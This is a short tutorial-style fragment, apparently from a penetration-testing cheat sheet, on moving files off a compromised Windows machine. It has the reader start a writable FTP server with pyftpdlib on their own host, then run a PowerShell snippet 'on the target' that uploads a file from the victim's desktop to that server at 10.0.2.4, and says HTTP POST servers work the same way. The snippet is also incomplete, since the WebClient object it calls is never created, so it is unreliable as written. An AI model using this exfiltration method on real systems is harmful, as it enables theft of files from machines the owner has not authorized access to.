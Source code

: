 Start a local FTP server on your own machine.

e.g.:

```bash
sudo python3 -m pyftpdlib -w -p 21
```

Then on the target execute the following powershell script. Replace the IP with your own machine. And the file name with the file you wish to upload.

```powershell
$target = "ftp://10.0.2.4/test_file.txt"
$file = "C:\Users\admin\Desktop\ftptest\test_file.txt"

$resp = $wc.UploadFile($target, $file)
```

This powershell command should also works with HTTP servers that support POST file upload instead of FTP.
